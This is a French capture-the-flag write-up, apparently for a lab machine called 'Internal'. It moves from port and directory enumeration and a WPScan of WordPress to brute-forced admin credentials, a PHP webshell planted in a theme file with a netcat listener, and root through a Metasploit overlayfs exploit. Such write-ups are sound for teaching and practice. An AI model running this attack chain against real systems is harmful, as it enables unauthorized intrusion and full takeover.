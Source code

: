 # Internal Write-up

## Enumération

### Nmap

#### Commande
`nmap -T4 -sC -sV -Pn -p- 10.10.33.91`

#### Informations
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)  
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)  
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (EdDSA)  
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
|_http-server-header: Apache/2.4.29 (Ubuntu)  
|_http-title: Apache2 Ubuntu Default Page: It works

***

### Gobuster

#### Commandes
`gobuster dir -u http://10.10.33.91/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100`  
`gobuster dir -u http://10.10.33.91/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100`  
`gobuster dir -u http://10.10.33.91/phpmyadmin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100`  
`gobuster dir -u http://10.10.33.91/blog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100`

#### Informations
/wordpress (Status: 301)  
	/wp-content (Status: 301)  
	/wp-includes (Status: 301)  
	/wp-admin (Status: 301)  
	/wp-login.php  

/javascript (Status: 301)  

/blog (Status: 301)  
	/wp-content (Status: 301)  
	/wp-includes (Status: 301)  
	/wp-admin (Status: 301)  
	/wp-login.php  

/phpmyadmin (Status: 301)  
	/themes (Status: 301)  
	/templates (Status: 403)  
	/doc (Status: 301)  
	/js (Status: 301)  
	/libraries (Status: 403)  
	/setup (Status: 401)  
	/sql (Status: 301)  
	/locale (Status: 301)  

/server-status (Status: 403)  

***

### Wappalizer

#### Informations
Apache/2.4.29  
WordPress/5.4.2  
Theme : Twenty Seventeen  
phpMyAdmin  
Google Font API  
RSS  
CodeMirror  
Apache HTTP Server  
PHP  
MySQL  
jQuery  
jQuery UI  
jQuery Migrate  

***

### WPScan

#### Commande
`wpscan -h http://10.10.33.91/wordpress`

#### Informations

[+] XML-RPC seems to be enabled: http://10.10.33.91/wordpress/xmlrpc.php  
 | Found By: Direct Access (Aggressive Detection)  
 | Confidence: 100%  
 | References:  
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API  
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner  
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos  
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login	<= Succès  
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access  

[+] WordPress readme found: http://10.10.33.91/wordpress/readme.html  
 | Found By: Direct Access (Aggressive Detection)  
 | Confidence: 100%  

[+] The external WP-Cron seems to be enabled: http://10.10.33.91/wordpress/wp-cron.php  
 | Found By: Direct Access (Aggressive Detection)  
 | Confidence: 60%  
 | References:  
 |  - https://www.iplocation.net/defend-wordpress-from-ddos  
 |  - https://github.com/wpscanteam/wpscan/issues/1299  

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).  
 | Found By: Emoji Settings (Passive Detection)  
 |  - http://10.10.33.91/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'  
 | Confirmed By: Meta Generator (Passive Detection)  
 |  - http://10.10.33.91/wordpress/, Match: 'WordPress 5.4.2'  

***

## Accès initial

> - Ajouter internal.thm dans /etc/host
> - Accèder à http://10.10.33.91/wordpress/wp-login.php  
> - Rentrer les identifiants "admin:my2boys" (récupérer via metasploit auxiliary/scanner/http/wordpress_xmlrpc_login)  
> - Naviguer vers “Appearance > Theme Editor > 404.php"
> - Remplacer le code par un webshell php
> - Lancer un listener (`nc -lvnp 4444`)
> - Accèder à la page http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php

## Escalade de privilège

> - Upgrader du webshell vers un meterpreter
> - Executer post(multi/recon/local_exploit_suggester)  
**Résultat :**  
>> 1.   exploit/linux/local/cve_2021_3493_overlayfs                         Yes                      The target appears to be vulnerable.  
>> 2.   exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec                 Yes                      The target is vulnerable.  
>> 3.  exploit/linux/local/cve_2022_0995_watch_queue                        Yes                      The target appears to be vulnerable.  
>> 4.   exploit/linux/local/docker_cgroup_escape                            Yes                      The target is vulnerable. IF host OS is Ubuntu, kernel version 4.15.0-112-generic is vulnerable  
>> 5.   exploit/linux/local/nested_namespace_idmap_limit_priv_esc           Yes                      The target appears to be vulnerable.  
>> 6.   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.  
>> 7.   exploit/linux/local/ptrace_traceme_pkexec_helper                    Yes                      The target appears to be vulnerable.  
>> 8.   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.  
>> 9.   exploit/linux/local/sudo_baron_samedit                              Yes                      The target appears to be vulnerable. sudo 1.8.21.2 is a vulnerable build.  
>> 10.  exploit/linux/local/sudoedit_bypass_priv_esc                        Yes                      The target appears to be vulnerable. Sudo 1.8.21p2.pre.3ubuntu1.2 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module  

> - Test exploit/linux/local/cve_2021_3493_overlayfs
> - **BINGO** Du premier coup!
> - On a un shell root, on fait ce que l'on veut

